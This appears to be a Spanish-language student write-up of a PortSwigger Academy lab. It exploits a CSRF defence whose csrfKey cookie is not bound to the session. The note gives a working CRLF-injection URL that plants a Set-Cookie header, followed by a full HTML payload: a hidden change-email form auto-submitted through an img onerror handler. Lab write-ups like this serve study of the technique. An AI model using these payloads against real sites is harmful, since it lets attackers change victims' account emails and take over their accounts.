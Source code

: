 En esta clase continuamos con la explotación de sistemas con defensas CSRF mal implementadas. El servidor emplea una cookie llamada ‘**csrfKey**‘ junto al token CSRF, pero esta cookie no está ligada a la sesión del usuario, por lo que es posible inyectarla en el navegador de la víctima aprovechando la funcionalidad vulnerable del buscador.

El ataque se desarrolla en dos fases:

- Inyección de la cookie ‘**csrfKey**‘ en el navegador víctima mediante una URL de búsqueda que fuerza al servidor a emitir un encabezado ‘**Set-Cookie**‘ reflejado.
- Envío del formulario CSRF con el token correspondiente, haciendo uso de la cookie previamente establecida.

Gracias a esto, conseguimos alterar la dirección de correo de la víctima sin que el servidor lo detecte como una acción ilegítima.

Este escenario demuestra cómo incluso mecanismos aparentemente robustos pueden ser burlados cuando no se integran correctamente con la lógica de sesión.

Solucion
Como veiamos en la otra imagen nosotro teniamos un SET-Cookie en la parte del send asi que lo que nosotros podriamos hacer es hacer un salto de lienar para obtener otro nuevo SET-COOKIE para ello en el codigo ascii podemos ver eso
![[Pasted image 20250723201619.png]]

asi que vamos a pasar esto para cambiarlo
(/?search=hola%20Set-Cookie:%20csrfKey=a )
![[Pasted image 20250723201727.png]]
asi que esto no lo vamos a llevar a decoder y ahi vamos a darle decoder y le ponemos URL y vamos agregar lo siguiente
(/?search=hola%0D%0ASet-Cookie:%20csrfKey=a) tuvimos que eliminar el %20 despues del hola
![[Pasted image 20250723202139.png]]
ahora lo vamos a suplantar por lo que teniamos  asi que podemos ver que si funciona el cambio
![[Pasted image 20250723202613.png]]
con todo obtenido vamos a obtener nuestro payload
lo primero copiamos el formulario
![[Pasted image 20250723202931.png]]
y en este caso vamos a cargar una imagen 
(<form class="login-form" name="change-email-form" action="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/my-account/change-email" method="POST">                          
    <input type="hidden" name="email" value="hola@tenso.com">
    <input required="" type="hidden" name="csrf" value="myxrfjEOa56IEtZMnXN2y8zGACc33wuI">
</form>

<img src="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/?search=/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20SameSite=None" onerror="document.forms[0].submit()">)
![[Pasted image 20250723204922.png]]

basicamente en el primer csrf ponemos esto del wiener
![[Pasted image 20250723205010.png]]
y en el segundo ponemos esto 
![[Pasted image 20250723205036.png]]
pero aqui le vamos agregar algo (/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20 SameSite=None)
![[Pasted image 20250723205116.png]]

